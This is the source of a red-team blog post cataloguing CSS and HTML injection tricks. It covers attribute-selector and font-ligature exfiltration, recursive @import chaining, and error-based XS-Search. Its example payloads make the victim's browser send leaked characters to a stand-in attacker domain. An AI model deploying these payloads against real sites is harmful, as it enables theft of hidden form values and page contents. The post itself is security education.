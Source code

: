 ```yaml
---
layout: post
title: CSS Injection Primitives
date: 2019-10-16 01:00:00
categories: posts
en: true
description: Collection of CSS / HTML primitives. Tricks to use as an alternative to JavaScript (exfiltration, timing, etc.)
keywords: "CSS Injection, HTML Injection, RedTeam, Red Team, XSLeak, Font-range, exfiltration, scriptless, css recursive import"
authors:
    - X-C3LL
---
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
__Last Update:__ 2019-10-18

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
The intention of this post is to document techniques and tricks that can be used as an alternative to JavaScript in the context of an injection. It is just a recopilation that I will be updating every few months (or at least I gonna try it...). Maybe this kind of recopilation is not useful for the majority of the mortals but I find interesting to "preserve" this information all together. All of them are well-known techniques, nothing fancy here. If you know more primitives please ping me at twitter ([@TheXC3LL](https://twitter.com/TheXC3LL)) so I can add them.


## Exfiltration and ping back
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
__Reference:__ [HTTP Leaks](https://github.com/cure53/HTTPLeaks/blob/master/leak.html)

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
In order to exfiltrate information we can rely on any of the well-known features that trigger an HTTP request to a server controlled by us. Specially we are intersted in those that are CSS related (@import, background, etc.). This will be the keystone to the rest of the tricks.

## HTML attribute exfiltration
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
__Reference:__ [The Sexy Assassin Tactical Exploitation using CSS](https://slideplayer.com/slide/3493669/), [Exfiltration via CSS Injection](https://medium.com/bugbountywriteup/exfiltration-via-css-injection-4e999f63097d)

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Probably this is the most known attack. It is posible to build an oracle that leaks the value of an attribute via [CSS Selectors](https://www.w3.org/TR/selectors-3/#attribute-selectors). CSS Selectors can be used as an expresion to match an element if that element has an attribute that matches the attribute represented by the attribute selector. The selectors can be used to match a substring inside an attribute, à la regex, so we can abuse this feature in a boolean way to find the value of a target attribute.

As an example, if we have something like `<input value="somevalue" type="text">`, we can do something like:

```css
input[value^="a"] { background: url('http://ourdomain.com/?char1=a'); }
input[value^="b"] { background: url('http://ourdomain.com/?char1=b'); }
...
input[value^="s"] { background: url('http://ourdomain.com/?char1=s'); } // This will trigger a HTTP request to our endpoint
...
input[value^="z"] { background: url('http://ourdomain.com/?char1=z'); }
```
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
The __value^=X__ expresion matches any element that contains an attribute "value" which _value_ starts with the prefix __X__. So when all the CSS rules are evaluted, the selector __value^="s"__ will match our target element and trigger the HTTP request to our endpoint, leaking the first char. Then we need to repeat the process with __value^=sX__ to extract the second char, then __value^=soX__ and so on. This can be improved significally if we determine the charset first. In this example only the chars "s,o,m,e,v,a,l,u,e" are used ( 9 vs the size of the whole potential charset) so we can reduce the number of "rules" needed in order to leak the whole string. This can be accomplished via __value*=X__, where __X__ matches any string which contains __X__. Pregenerate selectors that matches all the whole potential charset, then reuse only the ones that matched.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Usually the juicy information is inside inputs elements of type __hidden__. This kind of elements are not rendered by the browser, so (most)browsers no need to retrieve external resources for the element (which is the method used by us to leak the info). This problem can be solved with [CSS combinators](https://www.w3.org/TR/selectors-3/#combinators). 

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
Using the subsequent-sibling combinator (__~__) it is possible to represent the elements between two selectors. This way we can craft a rule like `input[value^=a] ~ *` that can be translated (roughly) as "elements that are between an input with a value that starts with "a" and anything that share the same parent". 

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
To perform this attack we need to update the ruleset to match the next char in each iteration. A shabby approach can be the use of `<meta-refresh...>`. A better idea can be the combination of this attack with CSS import recursion (this technique will be discussed later).

## Text node exfiltration
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
__Reference:__ [Wykradanie danych w świetnym stylu – czyli jak wykorzystać CSS-y do ataków na webaplikację](https://sekurak.pl/wykradanie-danych-w-swietnym-stylu-czyli-jak-wykorzystac-css-y-do-atakow-na-webaplikacje/)

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
We can extract the text contained in a node with a technique that combines font ligatures and the detection of width changes. The main idea behind this technique is the creation of fonts that contains a predefined ligature with high size and the usage of size changes as oracle.

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
The fonts can be created as SVG fonts and then converted to woff with fontforge. In SVG we can define the width of a glyph via __horiz-adv-x__ attribute, so we can build something like `<glyph unicode="XY" horiz-adv-x="8000" d="M1 0z"/>`, being XY a sequence of two chars. If the sequence exists, it will be rendered and the size of the text will change. But... how can we detect these changes?

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
When the attribute white-space is defined as __nowrap__ it forces the text to do not break when it exceeds the parent's width. In this situation, an horizontal scrollbar will appear. And we can define the style of that scrollbar, so we can leak when this happens __:)__

```css
body { white-space: nowrap }; 
body::-webkit-scrollbar { background: blue; }
body::-webkit-scrollbar:horizontal { background: url(http://ourendpoint.com/?leak); }
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
At this point the attack is clear: 
1. Create fonts for the combination of two chars with huge width
2. Detect the leak via the scrollbar trick
3. Using the first ligature leaked as base, create new combinations of 3 chars (adding before / after chars)
4. Detect the 3-chars ligature.
5. Repeat until leaking the whole text


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
We still needing a improved method to start the iteration because `<meta refresh=...` is suboptimal. CSS recursive imports is our savior!

## CSS Recursive import
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
__Reference:__ [PoC for leaking text nodes via CSS injection by @cgvwzq](https://github.com/cgvwzq/css-scrollbar-attack/)

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
To avoid hardcoding all the steps in the payload (that would be overkill) -or using limited tricks like meta-refresh / iframes- we can use CSS recursive imports. In CSS we can import more rules from external style sheets with the `@import` CSS at-rule. Browsers will try to reach the external resource to get the CSS rules and apply them to format the website. But... what happens when the request to the external style sheet takes too long? That the browser processes the rules settled in the main CSS and when it manages to load the external style sheet those rules will be applied. 


&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
This behaviour can be abused in order to generate custom CSS rules on the fly. In our injection we can use an import to a style sheet hosted in our server, and this CSS will contain an import to another CSS owned by us plus the rules to leak the first chars (in attributes or in text nodes). The server response to the import will be delayed until we got the leaked char. When we known the first char we can build the custom CSS rules needed to leak the next char and deliver the file (the file will contain another import too, so we can repeat again the process).


## Error-based XS-Search (alternative to onerror)
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
__Reference:__ [CSS based Attack: Abusing unicode-range of @font-face ](https://mksben.l0.cm/2015/10/css-based-attack-abusing-unicode-range.html), [Error-Based XS-Search PoC by @terjanq](https://twitter.com/terjanq/status/1180477124861407234)

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
This trick is an alternative to onerror. Basically the main idea is to use a custom font from an endpoint controlled by us in an text that will be showed only if the resource can not be loaded. 

```html
<!DOCTYPE html>
<html>
<head>
    <style>
    @font-face{
        font-family: poc; 
        src: url(http://ourenpoint.com/?leak); 
        unicode-range:U+0041;
    }

    #poc0{
        font-family: 'poc';
    }

    </style>
</head>
<body>

<object id="poc0" data="http://192.168.0.1/favicon.ico">A</object>
</body>
</html>
```

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
We can abuse this technique for example to build a network scanner (to scan webs hosted in the internal network, even fingerprint well-known web platforms).


## Final words
&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;
As I said before I want to keep this collection updated. If you know more tricks, please feel free to ping me at twitter ([@TheXC3LL](https://twitter.com/TheXC3LL)) so I can add them to the list.

